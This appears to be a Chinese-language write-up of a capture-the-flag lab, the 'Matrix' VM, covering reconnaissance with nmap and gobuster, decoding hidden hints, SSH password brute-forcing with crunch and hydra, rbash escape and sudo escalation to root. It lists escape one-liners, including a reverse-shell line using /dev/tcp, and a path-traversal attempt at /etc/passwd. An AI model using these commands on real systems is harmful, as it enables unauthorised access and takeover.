Matrix
===

### Nmap 扫描

#### 主机发现





#### 端口扫描








访问一下这个地址。



### 信息收集

端口扫描没有直接暴露出明显的攻击面, 先着手调查一下 80 端口这个网站。

#### 目录爆破

看一下控制台, 调整爆破的指令:

```bash
sudo gobuster dir -u http://192.168.170.150 --wordlist=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x js,json,env,config.js,log,map
```


没有太多结果。

#### 查看源码

调出控制台观察一下:



看到网站后台有 `/assets/img/p0rt_31337.png` 这个文件, 提示前往之前扫到的 31337 端口。先下载这个图片, 这个图片可能会隐藏某些信息, 比如图像隐写 (虽然可能性比较小)。





#### 31337 端口服务

尝试一下目录遍历漏洞 (`../../etc/passwd`), 直接跳转到 `192.168.170.150:31337/etc/passwd` , 应该是被过滤掉了。

接下来精确探测一下 31337 端口上的服务, 并访问这个地址。


```bash
sudo nmap -sV -p31337 192.168.170.150
```
---

对 31337 端口再进行一次目录爆破:

```bash
sudo gobuster dir -u http://192.168.170.150:31337 --word-list
```



报错非常有意思, 因超时未能收到服务器的响应头。然而 `index.html`, 也就是这个主界面上的资源都能正常扫出来, 结合主页这一排字:

    `You know.. I know this steak doesn't exist. I know when I put it in my mouth; the Matrix is telling my brain that it is juicy, and delicious. After nine years.. you know what I realize? Ignorance is bliss.`

说明有可能需要在时间方面改包。



先看看其他方面的线索, 查看网页源码, 有一排比较可疑的 base64 编码:



解码后是: *echo "Then you'll see, that it is not the spoon that bends, it is only yourself. " > Cypher.matrix*。也就是把这段话打进 `Cypher.matrix` 这个文件。



搜一下这段代码, 显示是一段 `brain f**k` 代码, 将其解码后得到: *"You can enter into matrix as guest, with password k1ll0rXX
Note: Actually, I forget last two characters so I have replaced with XX try your luck and find correct string of password."*

也就是直接给出了 `guest` 用户可能的密码组合。

### 密码爆破

根据自带字典, 用 `crunch` 生成 8 位字典:

```bash
crunch 8 8 -f /usr/share/crunch/charset.lst lalpha-numeric-sv -t k1ll0r@@ > pass.dic
```

> `-f`: 指定字符集; `-t`: 插入小写字符; `>` 写入文件。

用 `hydra` 进行爆破:

```bash
hydra -l guest -P pass.dic ssh://192.168.170.150 -f -o ssh.txt
```



得到口令 `k1ll0r7n`。接下来使用 ssh 连接到 guest 用户:



### Linux 提权

现在已经拿到了 Guest 的 shell, 下一步是着手进行 Linux 提权操作。先确认用户和地址:



发现无法识别指令, 并且返回了 `-rbash` (restricted bash), 表明是受限制的 shell。

#### rbash 逃逸

查看当前环境, 确认是 rbash:

```bash
echo $PATH
echo $SHELL
```



试试常用 rbash 逃逸方式:

```bash
# 使用 ssh/scp 逃逸
ssh guest@localhost -t bash --noprofile
scp -S /bin/bash x x

# 使用 Python
python -c 'import os; os.system("/bin/bash")'

# 使用 awk
awk 'BEGIN {system("/bin/bash")}'

# 使用 find
find / -exec /bin/bash \;

# 使用 curl 下载反弹 shell
echo 'bash -i >& /dev/tcp/192.168.170.150/4444 0>&1' | bash

# 使用 vi 进行逃逸
vi
#!/bin/bash
```



`vi` 指令是允许的, 因此可以用 `vi test` 来完成提权。在界面中, 使用 `:!` 可以执行外部命令, 因此 `:!/bin/bash` 即可。

>   原理:由于 rbash 只限制了通过 bash 启动的命令，而**通过 vi 启动的子进程（这里是新的 bash ）并不继承父进程的 rbash 限制**（除非有特殊的环境设置），所以新启动的 bash 是非受限的。



可以看到之前无法使用的 `ls` 指令已经有正常显示, 逃逸成功。



---

>   为什么 `echo $SHELL` 仍显示 rbash？
>   -   环境变量 `$SHELL` 未更新：
>   -   `$SHELL` 是环境变量，不是当前 shell 的实时状态指示器, 它记录的是登录时使用的初始 shell，而不是当前运行的 shell
>   -   从 rbash 启动的新 bash 会继承父进程的环境变量

---

接下来需要修正环境变量, 就可以得到完整的 shell。

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```



#### 尾声

输入 `sudo -l` , 看见  `(ALL)ALL`, 那么很好了, 直接使用 `sudo su` 即可提权完成。



>   注意是 `sudo su` 而不是 `su`, 因为刚刚的 `sudo -l` 已经发现 guest 账户有权限直接进行 `sudo su` 操作 (回显 `(ALL)ALL`), 这两者最主要的区别是, `su` 需要验证的是 root 账户的密码, 而 `sudo su` 验证的是 guest 账户 (当前) 的。



到此， 渗透结束。

### 总结

-   思路:
Web源码分析 → 编码解密 → 凭据爆破 → 环境逃逸 → 权限提升

-   涵盖的主要渗透技术点:
    -   服务识别与信息收集（nmap、gobuster）
    -   Web 信息分析与源码挖掘（隐藏资源、base64）
    -   编码与信息提取（base64、brainfuck）
    -   SSH 爆破（crunch、hydra）
    -   限制 shell 环境逃逸（rbash bypass）
    -   环境变量修复（$PATH）
    -   本地提权（sudo 利用）
    -   最终 root 权限获取
 